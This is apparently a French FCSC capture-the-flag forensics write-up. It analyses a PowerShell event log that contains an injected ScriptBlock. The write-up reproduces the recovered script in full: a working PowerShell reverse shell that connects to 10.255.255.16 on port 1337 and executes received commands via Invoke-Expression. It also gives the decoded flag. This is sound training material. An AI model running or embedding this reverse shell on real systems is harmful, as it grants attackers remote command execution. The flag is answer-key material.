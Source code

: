 # Forensics

# La Gazette de Windows

## Write-UP:

Le fichier mis à notre disposition : **"Microsoft-Windows-PowerShell%4Operationel.evtx"** peut être ouvert avec l'observateur d'évènements de windows 

Pour l'ouvrir il suffit d'effectuer :

> eventvwr après avoir fait win+r

Une fois dans l'event viewer, on importe le fichier et on constate que l'utilisateur a **injecté un ScriptBlock lors de l'évenement de 18h18:07**: 

```Création du texte Scriptblock (1 sur 1) : 
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()

```

**Utilisons ce programme dans le powershell pour avoir le flag:**
```$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
Write-Output "s= $s"
```

Le flag est donc : **FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}**

